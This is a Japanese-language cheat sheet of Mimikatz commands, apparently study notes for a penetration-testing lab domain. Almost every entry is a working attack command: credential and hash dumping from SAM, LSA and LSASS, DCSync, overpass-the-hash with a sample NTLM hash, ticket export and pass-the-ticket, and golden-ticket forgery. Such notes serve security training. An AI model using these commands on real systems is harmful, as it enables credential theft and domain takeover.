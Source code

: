 # Mimikatz
[Documentation]()

## コマンド集

1. Mimikatzのプロセスにデバッグ権限を要求して、認証情報の抽出を可能にする。SeDebugPrivlege権限を取得する。
```
privilege::debug
```

2. SYSTEM権限に昇格する
```
token::elevate
```

3. SAMデータベースからユーザのNTLMハッシュをダンプする
```
lsadump::sam
```

4. Sekurlsaモジュールを使ってログオンしているすべてのユーザの資格情報、ハッシュをダンプする
```
sekurlsa::logonpasswords
```

5. jeffadminユーザとして、ターゲットのweb04.corp.comサービスにおける認証チケットを作成する。
```
kerberos::golden /sid:<sid> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:(ターゲットNTLMハッシュ) /user:jeffadmin
```

6. DCSYNC攻撃をするためのコマンドで、/userの引数にドメイン\ユーザの形式で指定。これでターゲットユーザの資格情報を取得できる。
```
lsadump::dcsync /user:corp\dave
```

7. Pass the HashではなくOverpass the Hash攻撃。ターゲットユーザのNTLMハッシュを使ってpowershellを起動する。  
PtHとの違いとして、Kerberosを使って認証している点がある。
```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

8. 長い出力を後で見やすくするように"hoge.txt"に出力の結果をログとして保存する。他のコマンドを実行する前にこのコマンドを実行しておく。
```
log "hoge.txt"
```

9. メモリからすべての**Ticket Granting Ticket**と**Ticket Granting Service**をエクスポートする。  
エクスポートされたファイルは、.kirbi形式でディスクに保存される。  
このコマンドは、TGS/TGTのメモリ内にあるLSASSのプロセス領域を解析してダンプしている。
```
sekurlsa::tickets /export
```

10. ticketsのエクスポートで出力された.kirbi形式の**Ticket Granting Service**ファイルを選択して、Pass the Ticketを行う。  
OKが返ってくればインジェクションは成功。この時点で、klistをするとセッション内にチケットが入っていることを確認できる。
```
kerberos::ptt [0;102990]-0-0-40810000-dave@cifs-web04.kirbi 
```

11. Local Security AuthorityことLSAからユーザのNTLMをダンプできる。
```
lsadump::lsa /patch
```

12. 既存のKerberosチケットを削除する。新しくゴールデンチケットを作るときとかに使う。
```
kerberos::purge
```

13. ゴールデンチケットを偽造する。  
既存のユーザ名を指定する必要があり、sidはwhoami /userで確認可能。
```
kerberos::golden /user:<既存のユーザ名> /domain:corp.com /sid:<指定したユーザのSID、whoami /userで確認できる> /krbtgt:<krbtgtユーザのNTLMhash> /ptt
```

14. 現在のmimikatzセッションでcmdを起動する。ゴールデンチケット生成した後とかはこれやらないと意味ない。
```
misc::cmd
```

15. ディレクトリを移動する
```
cd
```